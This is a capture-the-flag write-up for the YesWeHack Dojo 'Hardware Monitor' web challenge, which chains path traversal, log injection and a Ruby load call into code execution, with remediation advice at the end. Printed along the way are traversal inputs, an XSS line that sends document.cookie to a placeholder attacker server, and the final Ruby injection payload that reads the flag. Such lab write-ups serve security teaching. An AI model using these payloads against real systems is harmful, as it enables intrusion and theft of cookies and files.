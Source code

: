```yaml
---
name: Hardware Monitor
event: YesWeHack Dojo 2025
category: Web
description: Writeup for Hardware Monitor (Web) - YesWeHack Dojo (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# 08-25: Hardware Monitor

## Description

> We were recently hired to perform an authorized pentest and we were given access to their custom application that monitors the hardware usage for their server. It seems we can run custom backup scripts with our current authorization role. That seems interesting... right?

## Solution

In this writeup, we'll review the latest [YesWeHack](https://twitter.com/yeswehack) Dojo [challenge](https://dojo-yeswehack.com/challenge-of-the-month/dojo-44), created by [Brumens](https://twitter.com/Brumens2) 💜

Follow me on [Twitter](https://twitter.com/_CryptoCat) and [LinkedIn](https://www.linkedin.com/in/cryptocat) (and everywhere else 🔪) for more hacking content! 🥰

### Source code review

Starting with the setup code, we see the flag is stored in `/tmp` with a randomised filename. I snipped the `index.html` as it's purely frontend UI related, which doesn't look useful for this challenge.

#### setup.rb

```ruby
require 'fileutils'
require 'securerandom'

# Write flag script file with execute only
filenameflag = "flag_#{SecureRandom.hex(10)}.txt"
File.write("/tmp/#{filenameflag}", flag)

# Make web app folder structure and add files
FileUtils.mkdir_p '/tmp/app/views'
FileUtils.mkdir_p '/tmp/app/logs'
FileUtils.mkdir_p '/tmp/app/scripts'
Dir.chdir('/tmp/app')

File.write('scripts/bakup.rb', 'puts "PANIC PANIC PANIC AAAAH!!!"')

# Write the login page
File.write('views/index.html', '
<SNIP>
')
```

Next, we review the `bakup.rb` file. A script file path is created from `OUR_INPUT`, then later loaded from the `scripts/` directory (after calling `cleanpath`). Finally, the error logs are returned to the UI.

#### server.rb

```ruby
require 'erb'
require 'cgi'
require 'logger'
require 'pathname'

Dir.chdir('/tmp/app')

logger = Logger.new('logs/error.log')
logger.datetime_format = "%-m/%-d/%Y"

scriptFile = CGI.unescape("OUR_INPUT")
scriptFile = Pathname.new(scriptFile)

# Load given backup script
if scriptFile != '' then
    logger.info("Running bakup script #{scriptFile}")
    begin
        load "scripts/#{scriptFile.cleanpath}"
    rescue Exception => e
        logger.warn("The bakup script failed to run, error : #{e.message}")
    end
end

# Render the given page for our web application
puts ERB.new(IO.read("views/index.html")).result_with_hash({logs: File.read("logs/error.log")})
```

### Directory Traversal

Since the vulnerable file is called `bakup.rb`, let's try to request this first.

![](./images/0.PNG)

It runs successfully! Let's try a directory traversal for `../../../../etc/passwd`

![](./images/1.PNG)

![](./images/2.PNG)

It did actually leak some values, interesting! I thought `scriptFile.cleanpath` would remove the `../` but apparently it just removes "consecutive slashes and useless dots", e.g. `..//..//..//..//etc/passwd` is converted to `../../../../etc/passwd` The problem is we don't know the name of the randomised flag.

I also noticed we can trigger an error trace by trying to re-run `logger.rb`.

![](./images/3.PNG)

I tried to fuzz some other files, e.g. `/proc/fd/0` (through 10), `/proc/self/cmdline`, `.env` files etc, but didn't find anything useful.

I noticed we can achieve XSS, e.g. input of `<b>meow</b>` will print bold and if we set an XSS to steal the cookie, we get the callback.

```html
</pre><img src="https://ATTACKER_SERVER/cookie?c="+document.cookie><pre>
```

We don't get a cookie though, and that's not where the flag is 😅

I look online for `logger.rb v1.6.4` vulnerabilities, but don't see much. Another thought; log injection + path traversal -> RCE?

### Log Injection

We know the path of the error log is `../logs/error.log` so if the log contained valid ruby code, would it run when passed to the `load` function?

Before entering testing with any ruby code, let's just try to run the file.

![](./images/4.PNG)

I don't know much about Ruby - initially I thought it was trying to execute each line. Unfortunately, from what I can gather, the syntax error on line 2 (`I,`) will prevent any further execution. In other words, the remaining errors are just related to failed parsing.

Since I'm out of ideas, I continue down this rabbit hole. Examining the functionality of `cleanPath`, I realise if we send the input `../logs/error.log/../PAYLOAD`, we get the following output.

```bash
# Logfile created on 2025-09-08 16:52:37 +0000 by logger.rb/v1.6.4
I, [9/8/2025 #7501]  INFO -- : Running bakup script ../logs/error.log/../PAYLOAD
W, [9/8/2025 #7501]  WARN -- : The bakup script failed to run, error : cannot load such file -- scripts/../logs/PAYLOAD
```

Notice that the INFO line shows `../logs/error.log/../PAYLOAD` whereas the WARN line shows `../logs/PAYLOAD`

However, we would want this the other way round. Send `../logs/PAYLOAD/../error.log` and we will see that it _does_ try to execute `../logs/error.log` _and_ our `PAYLOAD` is injected into that log first.

```bash
I, [9/8/2025 #7596]  INFO -- : Running bakup script ../logs/PAYLOAD/../error.log
W, [9/8/2025 #7596]  WARN -- : The bakup script failed to run, error : scripts/../logs/error.log:3: syntax errors found
  1 | # Logfile created on 2025-09-08 16:55:54 +0000 by logger.rb/v1.6.4
> 2 | I, [9/8/2025 #7596]  INFO -- : Running bakup script ../logs/PAYLOAD/../error.log
    | ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ unexpected write target
    |    ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ unexpected write target
    |                                                                                 ^ unexpected end-of-input; expected a `]` to close the array
```

We can verify this by sending `../logs/PAYLOAD/../error.logz` and seeing it no longer runs.

```bash
# Logfile created on 2025-09-08 17:08:35 +0000 by logger.rb/v1.6.4
I, [9/8/2025 #7995]  INFO -- : Running bakup script ../logs/PAYLOAD/../error.logz
W, [9/8/2025 #7995]  WARN -- : The bakup script failed to run, error : cannot load such file -- scripts/../logs/error.logz
```

We still can't just swap the `PAYLOAD` with a real one 😞 As discovered earlier, ruby is hitting an error at the beginning of the line (`I,`) and will not proceed.

I check the [recent releases](https://github.com/ruby/logger/releases) of the logger library and see that the most recent version (1.7.0) added a new feature; `Add skip_header option`. If this was enabled (or we could switch it on), maybe our attack plan would work? Unfortunately, we're using a version that's nearly a year old (1.6.4) so this feature did not exist.

I also tried with newlines, confirming that we _can_ still `load` the `error.log` as a file using this payload.

```bash
../logs/
PAYLOAD
/../error.log
```

I'm out of ideas - I've already looked at all [common file paths](https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks), to the extent that YWH blocked my IP for a little while 👀 I'd be extremely surprised if this was the correct approach because challenges always state "no automated tools", "no brute force" etc. Furthermore, what would be the point of including the `logger.rb` at all if we just had to read a local file?

### RCE

Unfortunately, I ran out of time and didn't solve the challenge. Now that the [writeups](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-44) are released, I can see how close I got 😫

The path was correct; `log injection -> path traversal -> RCE`

The problem was me not fixing the ruby syntax! I had noticed that inserting a closing `]` would fix the first error, but I didn't break it down sufficiently to see what else was required. In fact, we needed to make quite a few changes (check [YWH blog](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-44) for full explanation).

```ruby

][0]=1;f=Dir['/tmp/flag*.txt'][0];c=File.read(f);puts c#://../../../../logs/error.log
```

## Remediation

-   Don't trust user input. Replace `load` with a fixed dispatch or whitelist (map input to allowed actions).
-   Canonicalise paths to prevent directory traversal.
-   Don't leak detailed errors to users.

## Summary (TLDR)

The challenge featured an obvious path traversal vulnerability, but that alone is not enough to get the flag. Since the filename is randomised, we need RCE or some way to list/leak directory listings. In this case, the path traversal could be combined with log injection to execute some ruby code. Achieving RCE was complicated by the prepended lines in the log (dirty file write) and some understanding of ruby syntax and parsing was essential (hence I did not solve it 😸).
